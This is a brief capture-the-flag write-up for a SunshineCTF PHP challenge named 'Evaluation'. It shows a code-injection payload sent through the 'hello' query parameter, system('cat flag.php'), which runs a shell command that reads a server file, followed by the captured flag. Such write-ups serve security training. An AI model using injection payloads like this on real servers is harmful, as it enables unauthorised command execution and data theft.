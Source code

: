 ## Evaluation - 50

### Description

> Evaluate your life.How are you doing, and are you doing the best you can possibly do?Look deeper within yourself, beyond the obvious.Look at the source of it all.
Also, here's a PHP challenge.
http://evaluation.web1.sunshinectf.org

### Write up

command injection is possible through hello parameter.

> ?hello=system('cat flag.php')

> sun{c0mm4nD_1Nj3cti0n_i5_E4sY}
